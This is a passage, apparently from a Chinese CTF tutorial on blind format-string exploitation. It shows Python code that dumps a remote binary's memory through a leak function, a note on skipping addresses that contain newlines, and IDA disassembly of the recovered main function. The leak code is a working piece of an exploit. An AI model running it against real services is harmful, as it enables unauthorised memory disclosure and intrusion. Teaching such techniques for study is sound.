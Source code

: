 ```python
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None

def getbinary():
    addr = 0x400000
    f = open('binary', 'w')
    while addr < 0x401000:
        data = leak(addr)
        if data is None:
            f.write('\xff')
            addr += 1
        elif len(data) == 0:
            f.write('\x00')
            addr += 1
        else:
            f.write(data)
            addr += len(data)
    f.close()
getbinary()
```

需要注意的是，在 payload 中需要判断是否有 '\n' 出现，因为这样会导致源程序只读取前面的内容，而没有办法泄露内存，所以需要跳过这样的地址。

#### 分析 binary

利用 IDA 打开泄露的 binary ，改变程序基地址，然后简单看看，可以基本确定源程序 main 函数的地址

```shell
seg000:00000000004005F6                 push    rbp
seg000:00000000004005F7                 mov     rbp, rsp
seg000:00000000004005FA                 add     rsp, 0FFFFFFFFFFFFFF80h
seg000:00000000004005FE
seg000:00000000004005FE loc_4005FE:                             ; CODE XREF: seg000:0000000000400639j
seg000:00000000004005FE                 lea     rax, [rbp-80h]
seg000:0000000000400602                 mov     edx, 80h ; '€'
seg000:0000000000400607                 mov     rsi, rax
seg000:000000000040060A                 mov     edi, 0
seg000:000000000040060F                 mov     eax, 0
seg000:0000000000400614                 call    sub_4004C0
seg000:0000000000400619                 lea     rax, [rbp-80h]
seg000:000000000040061D                 mov     rdi, rax
seg000:0000000000400620                 mov     eax, 0
seg000:0000000000400625                 call    sub_4004B0
seg000:000000000040062A                 mov     rax, cs:601048h
seg000:0000000000400631                 mov     rdi, rax
seg000:0000000000400634                 call    near ptr unk_4004E0
seg000:0000000000400639                 jmp     short loc_4005FE
```
